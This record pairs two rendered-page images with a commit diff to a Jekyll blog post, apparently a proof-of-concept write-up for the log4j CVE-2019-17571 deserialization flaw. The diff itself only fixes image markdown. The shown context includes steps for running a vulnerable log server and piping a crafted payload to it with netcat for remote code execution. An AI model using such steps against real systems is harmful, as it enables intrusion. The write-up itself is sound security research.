

Before and after one commit to 0xsapra/website, a Jekyll site: the page built from _posts/2021-03-21-CVE-2019-17571.md, in a window 1280 px wide and 1400 px high, scrolled down 820 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
poc-cve-2019-17571

````diff
--- a/_posts/2021-03-21-CVE-2019-17571.md
+++ b/_posts/2021-03-21-CVE-2019-17571.md
@@ -22,6 +22,7 @@
 
 
 > Running the log4j server. We run it on port `5111` (first argument) with `config.properties` as config file(2nd argument)
+
 ```bash
 
 $ java -jar JankenTestLogServer.jar 5111 config.properties # this will run a server on port 5111 listening for socket connection
@@ -31,7 +32,7 @@
 
 Open `JankenTestLogServer.jar` with `jadx` to view the source code.
 
-[cve-2019-17571-1](/website/assets/images/cve-2019-17571-1.png)
+![cve-2019-17571-1](/website/assets/images/cve-2019-17571-1.png)
 
 ```java
 try {
@@ -60,7 +61,7 @@
 So lets inspect `SocketNode` function. Its imported from `import org.apache.log4j.net.SocketNode;`. Lets open `SocketNode.java`
 
 
-[cve-2019-17571-2](/website/assets/images/cve-2019-17571-2.png)
+![cve-2019-17571-2](/website/assets/images/cve-2019-17571-2.png)
 
 ```java
 
@@ -91,7 +92,7 @@
 $ cat haxtest.bin | nc localhost 5111
 ```
 
-[cve-2019-17571-rce](/website/assets/images/cve-2019-17571-rce.png)
+![cve-2019-17571-rce](/website/assets/images/cve-2019-17571-rce.png)
 
 
 Enjoy the rce
````
